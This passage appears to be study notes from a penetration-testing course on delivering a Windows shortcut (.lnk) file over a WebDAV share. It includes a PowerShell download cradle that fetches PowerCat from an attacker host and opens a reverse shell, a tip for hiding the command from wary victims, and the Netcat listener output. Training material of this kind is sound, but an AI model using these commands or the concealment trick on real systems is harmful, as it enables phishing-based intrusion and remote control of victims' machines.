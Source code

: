 #### Shortcut file reverse shell 
Now that we have a working Windows library file, we'll need to create the shortcut file
+ The goal is to start a reverse shell by putting the **.lnk** shortcut file on the WebDAV share for the victim to execute

Let's create the shortcut on the desktop for the _offsec_ user
+ For this, we'll right-click on the desktop and click on _New_ then on _Shortcut_
+ In the _Create Shortcut_ window, we can enter a path to a program along with arguments, which will be pointed to by the shortcut
+ We'll point the shortcut to PowerShell and use another download cradle to load PowerCat from our Kali machine and start a reverse shell

We'll use the command we leveraged previously:
``` Powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```


We'll enter this command into the input field and click _Next_
![[Pasted image 20230925123148.png]]
+ If we expect that our victims are tech-savvy enough to actually check where the shortcut files are pointing, we can use a handy trick:
	+ Since our provided command looks very suspicious, we could just put a delimiter and benign command behind it to push the malicious command out of the visible area in the file's property menu
	+ If a user were to check the shortcut, they would only see the benign command
+ **Note**: The **.lnk** file will be tagged with the "Mark of the Web"

In the next window, let's enter **automatic_configuration** as the name for the shortcut file and click _Finish_ to create the file
+ On our Kali machine, let's start a Python3 web server on port 8000 where **powercat.ps1** is located and start a Netcat listener on port 4444

Instead of using a Python3 web server to serve Powercat, we could also host it on the WebDAV share
+ However, as our WebDAV share is writable, AV and other security solutions could remove or quarantine our payload
+ If we configure the WebDAV share as read-only, we'd lose a great method of transferring files from target systems
+ Throughout this course, we'll use a Python3 web server to serve our payload for attacks utilizing Windows Library files

To confirm that the download cradle and the PowerCat reverse shell works, let's double-click the shortcut file on the desktop
+ After confirming that we want to run the application in the appearing window, the Netcat listener should receive a reverse shell
+ For example:
```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.194] 49768
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0>
```
